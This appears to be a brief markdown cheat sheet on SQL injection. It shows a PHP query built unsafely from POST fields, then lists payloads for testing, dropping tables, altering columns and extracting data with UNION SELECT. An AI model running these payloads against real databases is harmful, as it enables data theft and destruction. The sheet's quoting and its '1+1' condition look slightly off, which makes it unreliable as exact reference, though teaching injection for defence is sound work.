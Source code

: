 # SQL Injection
## The basics

How an example of unsecure sql statement looks like:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>$_POST["username"]</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

To break the statement:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>1' OR 1+1--</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

<br>

### Simple SQL injection test
```SQL
'
1' OR 1+1--
\'
```
### Where table name is known
```SQL
1'; DROP TABLE {tablename} --
```
### Where column name is known
```SQL
1'; ALTER TABLE {tablename} ALTER COLUMN {columnname} {datatype} --
1' UNION SELECT {columnname} FROM {tablename};--
1' UNION ALL SELECT {columnname} FROM {tablename};--
```
